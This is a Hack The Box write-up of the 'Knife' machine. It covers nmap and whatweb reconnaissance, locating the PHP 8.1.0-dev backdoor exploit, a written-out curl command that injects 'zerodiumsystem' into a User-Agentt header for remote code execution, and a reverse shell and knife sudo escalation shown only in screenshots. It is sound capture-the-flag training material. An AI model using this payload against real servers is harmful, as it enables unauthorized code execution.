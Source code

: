 ```yaml
---
title: "Knife - HackTheBox"
layout: single
excerpt: This is an easy machine, for its <code>intrusion</code> I took advantage of a vulnerable version of PHP/8.1.0-dev, adding the header 'User-Agent' followed by 'zerodiumsystem(<command>)' it was found that 'RCE' could be gained, for this I established a reverse shell through netcat and gained access, for escalation I found that the Knife binary could be executed as root user, search in gtfobins and escalate privileges.
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/131350831-4f0940b7-ef0b-42fc-9c75-2e784f1cd62f.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - knife
  - User Agent
  - curl
  - searchsploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/131885749-053f2ece-406c-4d42-8185-f3929daae7be.jpg">
</p>
 
I started with an `Nmap` scan for open ports.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# nmap -sS --min-rate=5000 -n -vvv --open -Pn 10.10.10.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-29 10:07 EDT
Initiating SYN Stealth Scan at 10:07
Scanning 10.10.10.242 [1000 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 10:07, 0.41s elapsed (1000 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (0.11s latency).
Scanned at 2021-08-29 10:07:20 EDT for 0s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds
           Raw packets sent: 1012 (44.528KB) | Rcvd: 1012 (40.488KB)
```

Perform another scan to detect the version of each open service found.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# nmap -sC -sV -p22,80 10.10.10.242 -oN targeted                       
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-29 10:09 EDT
Nmap scan report for 10.10.10.242
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
| 256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_ 256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
```

I saw that a web server was running, I accessed it and found the following.

![https://imgur.com/8D6YyB7.png](https://imgur.com/8D6YyB7.png)

The sections that were there were not buttons so there was little I could do, I did a `whatweb` to the web server to see that it was running.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

I found that it was running `PHP`, that caught my attention, I sent a `GET` request and it seems that `whatweb` reports it from the `X-Powered-By` header.

![https://imgur.com/2otlnnT.png](https://imgur.com/2otlnnT.png)

I looked for any `exploit` for that version and found one that guaranteed arbitrary code execution.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# searchsploit PHP 8.1.0-dev
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Concrete5 CMS < 8.3.0 - Username / Comments Enumeration                                                                     | php/webapps/44194.py
cPanel < 11.25 - Cross-Site Request Forgery (Add User PHP Script)                                                           | php/webapps/17330.html
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                         | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                     | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                                            | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                       | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                                              | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                                                          | php/webapps/46459.py
FileRun < 2017.09.18 - SQL Injection                                                                                        | php/webapps/42922.py
Fozzcom Shopping < 7.94 / < 8.04 - Multiple Vulnerabilities                                                                 | php/webapps/15571.txt
FreePBX < 13.0.188 - Remote Command Execution (Metasploit)                                                                  | php/remote/40434.rb
IceWarp Mail Server < 11.1.1 - Directory Traversal                                                                          | php/webapps/44587.txt
KACE System Management Appliance (SMA) < 9.0.270 - Multiple Vulnerabilities                                                 | php/webapps/46956.txt
Kaltura < 13.2.0 - Remote Code Execution                                                                                    | php/webapps/43028.py
Kaltura Community Edition < 11.1.0-2 - Multiple Vulnerabilities                                                             | php/webapps/39563.txt
Micro Focus Secure Messaging Gateway (SMG) < 471 - Remote Code Execution (Metasploit)                                       | php/webapps/45083.rb
NPDS < 08.06 - Multiple Input Validation Vulnerabilities                                                                    | php/webapps/32689.txt
OPNsense < 19.1.1 - Cross-Site Scripting                                                                                    | php/webapps/46351.txt
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                         | php/webapps/49933.py
Plesk < 9.5.4 - Remote Command Execution                                                                                    | php/remote/25986.txt
REDCap < 9.1.2 - Cross-Site Scripting                                                                                       | php/webapps/47146.txt
Responsive FileManager < 9.13.4 - Directory Traversal                                                                       | php/webapps/45271.txt
Responsive Filemanger <= 9.11.0 - Arbitrary File Disclosure                                                                 | php/webapps/41272.txt
ShoreTel Connect ONSITE < 19.49.1500.0 - Multiple Vulnerabilities                                                           | php/webapps/46666.txt
Western Digital Arkeia < 10.0.10 - Remote Code Execution (Metasploit)                                                       | php/remote/28407.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                         | php/webapps/39553.txt
Zoho ManageEngine ADSelfService Plus 5.7 < 5702 build - Cross-Site Scripting                                                | php/webapps/46815.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I transferred it to my machine with the `-m` parameter of `searchsploit`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# searchsploit -m php/webapps/49933.py                        
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
File Type: HTML document, ASCII text, with CRLF line terminators

Copied to: /home/kali/HTB/Knife/49933.py
```
  
After seeing what it was doing behind the scenes, I found that it sends a request adding a new header called `User-Agent` that executes the following statement `zerodiumsystem("command");`
and you win `RCE`.
  
![https://imgur.com/w3qsvUO.png](https://imgur.com/w3qsvUO.png)
  
I did it manually with `curl`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# curl -X GET http://10.10.10.242/ -H "User-Agentt: zerodiumsystem('whoami');" 
james
<!DOCTYPE html>
<html lang="en" >

<head>

  <meta charset="UTF-8">
```

It seems that it worked, it executed the command I wanted and reported the "output" in the first line of the page's source code, now I only needed to gain access to the system, so I started a `reverse shell` using `netcat`, for this I used one of `mkfifo`.

![https://imgur.com/ipnNoz2.png](https://imgur.com/ipnNoz2.png)

And I gained access to the machine.

![https://imgur.com/OABTbXS.png](https://imgur.com/OABTbXS.png)
  
<hr>
<h1 align="center"><b>ESCALADA DE PRIVILEGIOS</b></h1>

I did some TTY testing and found that the knife binary could be run as the root user.

![https://imgur.com/gwNgZIA.png](https://imgur.com/gwNgZIA.png)

I went to `gtfobins` and found that it could be scaled by running the `knife` binary.

![https://imgur.com/G7sdeOP.png](https://imgur.com/G7sdeOP.png)

I ran it and gained access to the machine as `root` and could now see the "flag".

![30OhG9A](https://user-images.githubusercontent.com/69093629/131256003-84afcd54-e826-4192-aabc-af581f4601cb.jpg)

